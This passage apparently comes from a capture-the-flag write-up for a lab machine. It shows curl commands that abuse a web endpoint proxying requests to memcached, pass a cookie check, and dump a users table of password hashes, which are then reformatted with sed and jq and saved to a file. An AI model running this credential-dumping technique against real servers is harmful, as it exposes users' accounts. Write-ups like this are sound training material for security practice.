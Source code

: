 Now I can get the actual data. The `stock` item returns json data that matches what I see on the port 80 page. The users item contains usernames and hashes. To display this properly, I’ll use `recode` to un-html encode a bunch of stuff, and then a similar to before `sed` command:

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/<pre>/{:a;n;/<\/pre/b;p;ba}'
VALUE users 0 24625
{"quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott": "c6ab361604c4691f78958d6289910d21", "isidro": "e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266", "colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen": "d7505316e9a10f
c113126f808663b5a4", "jessie": "71f08b45555acc5259bcefa3af63f4e1", "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84", "demario_homenick": "2c22da161f085a9aba62b9bbedbd4ca7", "paris": "ef9b20082b7c234c91e165c947f10b71", "gardner_ward": "eb7ed0e8c112234ab1439726a4c50162", "daija.casper": "4d0ed472e5714e5cca8ea7272b15173a", "alanna.
prohaska": "6980ba8ee392b3fa6a054226b7d8dd8f", "russell_borer": "cb10b94b5dbb5dfab049070a2abda16e", "domenica.kulas": "5cb322691472f05130416b05b22d4cdf", "davon.kuhic": "e301e431db395ab3fdc123ba8be93ff9", "alana": "41c85abbc7c64d93ca7bda5e2cfc46c2", "bryana": "4d0da0f96ecd0e8b655573cd67b8a1c1", "elmo_welch": "89122bf3ade23faf37b470f1fa5c7358", ...[snip]...
END

```

If I update the `sed` slightly to get values between the line with `VALUE` and `END`, I can get just the json, and I can use `jq` to format it:

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq .
{
  "quinton_dach": "17906b445a05dc42f78ae86a92a57bbd",
  "jackie.abbott": "c6ab361604c4691f78958d6289910d21",
  "isidro": "e4a4c90483d2ef61de42af1f044087f3",
  "roy": "afbde995441e19497fe0695e9c539266",
  "colleen": "d3792794c3143f7e04fd57dc8b085cd4",
  "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f",
  "asa.christiansen": "d7505316e9a10fc113126f808663b5a4",
  "jessie": "71f08b45555acc5259bcefa3af63f4e1",
  "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84",
...[snip]...

```

I’ll notice that if I wait even a minute or so, the users table goes empty. Logging out and back into the port 80 site refreshed it. I’ll save this json to a file to not have to worry about that anymore.

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq . > users.json

```
